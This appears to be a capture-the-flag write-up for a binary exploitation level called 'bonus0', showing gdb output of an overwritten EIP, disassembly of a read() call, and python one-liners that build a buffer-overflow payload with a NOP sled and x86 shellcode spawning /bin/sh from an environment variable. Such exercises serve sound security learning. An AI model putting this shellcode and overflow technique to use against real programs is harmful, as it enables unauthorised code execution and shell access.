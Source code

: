 	(gdb) i r
	eax            0x0	0
	ecx            0xffffffff	-1
	edx            0xb7fd28b8	-1208145736
	ebx            0xb7fd0ff4	-1208152076
	esp            0xbffff650	0xbffff650
	ebp            0x41414141	0x41414141
	esi            0x0	0
	edi            0x0	0
	eip            0x41414141	0x41414141
	eflags         0x210286	[ PF SF IF RF ID ]
	cs             0x73	115
	ss             0x7b	123
	ds             0x7b	123
	es             0x7b	123
	fs             0x0	0
	gs             0x33	51

EIP is overwritten by the second buffer

The program take 20 char on the first buffer and add the second (2 times?), and segfault

We need to use an env variable for the shellcode because the buffer is too small

	$ env -i payload=$(python -c 'print "\x90"*500+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"') gdb bonus0 

	(gdb) b main
	Breakpoint 1 at 0x80485a7

	(gdb) r
	Starting program: /home/user/bonus0/bonus0 

	Breakpoint 1, 0x080485a7 in main ()
	(gdb) x/500s environ
	...

Choose an address in the nopesled

`0xbffffe57` for exemple

For build our payload in one line, the two inputs need to be splited by a "\n", but we need to know the size of the read for put the "\n" in the last character

	0x080484c8 <+20>:	mov    DWORD PTR [esp+0x8],0x1000 <--- third arg
	0x080484d0 <+28>:	lea    eax,[ebp-0x1008]
	0x080484d6 <+34>:	mov    DWORD PTR [esp+0x4],eax <--- second arg
	0x080484da <+38>:	mov    DWORD PTR [esp],0x0 <--- first arg
	0x080484e1 <+45>:	call   0x8048380 <read@plt> <--- read() call

The size of the read is "0x1000" = 4096

So, the start of our payload will be (B * 4095) + "\n" + (A * 9) + nopesled_adress

	$ python -c 'print "B"*4095+"\n"+"A"*9+"\x57\xfe\xff\xbf"' > /tmp/file

	$ env -i payload=$(python -c 'print "\x90"*500+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"') gdb bonus0 

